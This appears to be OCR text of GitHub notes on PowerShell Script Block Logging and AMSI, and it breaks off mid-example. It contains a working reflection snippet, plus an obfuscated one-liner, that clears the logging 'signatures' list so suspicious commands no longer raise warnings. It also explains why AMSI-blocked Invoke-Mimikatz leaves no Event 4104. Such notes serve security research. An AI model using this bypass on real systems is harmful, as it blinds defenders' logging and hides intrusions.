 ```powershell
write-host "VirtualAlloc"
write-host "Invoke-Mimikatz"

$result = [ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
$result.Count

$newHashSet = New-Object 'System.Collections.Generic.HashSet[string]'
[ScriptBlock].GetField('signatures', 'NonPublic, Static').SetValue($null, $newHashSet)

$result = [ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
$result.Count

write-host "VirtualAlloc"
write-host "Invoke-Mimikatz"
```

----

```powershell
[ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
```
no more warnings = not even on the actual bypass (only informational logging)

----

Why No Event ID 4104 for Invoke-Mimikatz When AMSI Blocks It?
When you type Invoke-Mimikatz (or run Write-Output "Invoke-Mimikatz") and AMSI blocks it with the error This script contains malicious content and has been blocked by your antivirus software, you expect an Event ID 4104 in the Microsoft-Windows-PowerShell/Operational log, but it’s missing. Here’s why:

AMSI Blocks Before Execution:
AMSI scans script blocks before they are executed by PowerShell. When AMSI (via Microsoft Defender) detects a malicious pattern like Invoke-Mimikatz, it blocks the script block immediately, preventing it from reaching the execution stage where Script Block Logging (Event ID 4104) would occur.
Event ID 4104 is generated when a script block is executed and contains terms from the signatures field (e.g., VirtualAlloc) or other logging triggers. Since Invoke-Mimikatz is blocked pre-execution, PowerShell never logs it as an executed script block.
Script Block Logging Scope:
Script Block Logging (Event ID 4104) captures script blocks that are successfully parsed and executed, even if they contain sensitive terms like VirtualAlloc. These terms, listed in the signatures field, trigger logging with a Warning level but don’t necessarily cause AMSI to block unless they match a malicious pattern.
For Invoke-Mimikatz, AMSI’s high-confidence detection (due to its association with the Mimikatz tool) halts the script block before PowerShell’s execution pipeline, bypassing the logging stage.
Why VirtualAlloc Generates Event ID 4104:
Unlike Invoke-Mimikatz, VirtualAlloc is a sensitive but not inherently malicious term. It’s included in the signatures field (as seen in your earlier output) and triggers Event ID 4104 warnings when used in a script block because:
The script block executes successfully (AMSI doesn’t block it).
PowerShell’s logging checks the signatures field and flags VirtualAlloc for logging.
Example:
powershell
